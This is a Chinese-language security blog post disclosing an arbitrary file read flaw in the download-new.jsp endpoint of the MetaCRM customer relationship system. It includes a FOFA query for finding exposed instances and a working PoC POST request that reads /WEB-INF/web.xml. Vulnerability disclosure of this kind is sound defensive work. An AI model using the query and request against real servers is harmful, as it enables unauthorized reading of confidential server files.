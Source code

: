 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk5MDYxODcwMA==&mid=2247483941&idx=1&sn=2d0124416fb498dc8f044ec3f1ce3919

#  MetaCRM 客户关系管理系统 download-new.jsp 任意文件读取漏洞  
原创 zz  星络安全实验室   2025-07-20 03:48  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
漏洞详情：  
  
MetaCRM作为一款智能化的平台型客户关系管理软件，旨在通过优化企业运营流程和协同办公机制，显著提升组织管理效能与业务处理效率，助力企业实现数字化卓越运营。该系统的download-new.jsp接口存在本地文件读取安全缺陷，在特定条件下可能被恶意利用，导致攻击者非法获取服务器文件系统中的敏感数据，从而引发企业机密信息泄露风险。该漏洞属于受限文件读取类型，需及时进行安全加固。  
  
漏洞复现：  
  
fofa：  

```
body=&#34;/common/scripts/basic.js&#34; && body=&#34;www.metacrm.com.cn&#34;
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3CnOHQ745ibviaUzodc9q2d7HVic4wj16YVGAHicb7b9TYltoUdYD2SjuqJkw/640?wx_fmt=png&from=appmsg "")  
  
poc：  

```
POST /business/common/download-new.jsp HTTP/1.1
Host: xx
Content-Type: application/x-www-form-urlencoded

filename=1.png&page=/WEB-INF/web.xml
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3CndxEGQbJKQVtrA0rMH4a2Q5e7QwHwtFYuuYtDTaQH7SqhsIfOS1W5sw/640?wx_fmt=png&from=appmsg "")  
  
  
  
修复建议：  
  
关注厂商动态，升级至安全版本  
  
